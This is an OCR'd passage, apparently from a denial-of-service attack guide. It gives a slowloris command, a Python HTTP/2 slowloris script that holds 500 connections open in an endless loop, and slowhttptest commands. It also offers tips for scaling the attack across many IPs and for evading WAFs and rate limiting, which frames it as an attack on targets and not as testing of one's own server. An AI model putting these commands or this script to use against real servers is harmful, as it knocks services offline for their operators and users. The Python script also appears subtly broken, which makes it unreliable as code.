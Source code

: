     ```bash
    slowloris -dns <target_domain> -port 80 -timeout 2000 -num 500
    ```

    - `-num 500`: Open 500 connections.
    - `-timeout 2000`: Keep connections alive for 2 seconds.

  - **Python Alternative** (for HTTP/2):

    ```python
    import h2.connection
    import socket
    import time

    def slowloris_http2(target, port=443, connections=500):
        socks = []
        for _ in range(connections):
            sock = socket.create_connection((target, port))
            conn = h2.connection.H2Connection()
            conn.initiate_connection()
            sock.sendall(conn.data_to_send())
            stream_id = conn.get_next_available_stream_id()
            headers = [(":method", "GET"), (":path", "/"), (":scheme", "https"), (":authority", target)]
            conn.send_headers(stream_id, headers, end_stream=False)
            socks.append((sock, conn))
        while True:
            for sock, conn in socks:
                sock.sendall(conn.data_to_send())
                time.sleep(1)

    target = "target_server"  # Replace with target
    slowloris_http2(target)
    ```

  - **Efficiency Tips** :
  - Increase `-num` to match server’s connection limit (check with `netstat`).
  - Use HTTPS (`-port 443`) to target secure servers.
  - Run multiple instances from different IPs (e.g., VMs) for scale.
  - **Defense Bypass** :
  - HTTP/2 bypasses legacy WAFs that don’t parse modern protocols.
  - Slow requests evade rate-limiting by staying under thresholds.

  ### 3.3 slowhttptest

  **Purpose** : Simulate slow HTTP attacks (Slowloris, Slow POST, Slow Read).

  - **Protocols** : HTTP/HTTPS (Layer 7).
  - **Strengths** : Configurable attack types, stealthy, targets specific server weaknesses.
  - **Usage** :
  - **Slowloris Mode** :
    `bash slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://<target_ip> -x 24 `

    \*`-c 1000`: 1,000 connections.

    - `-H`: Slowloris mode.
    - `-i 10`: 10ms interval for sending headers.
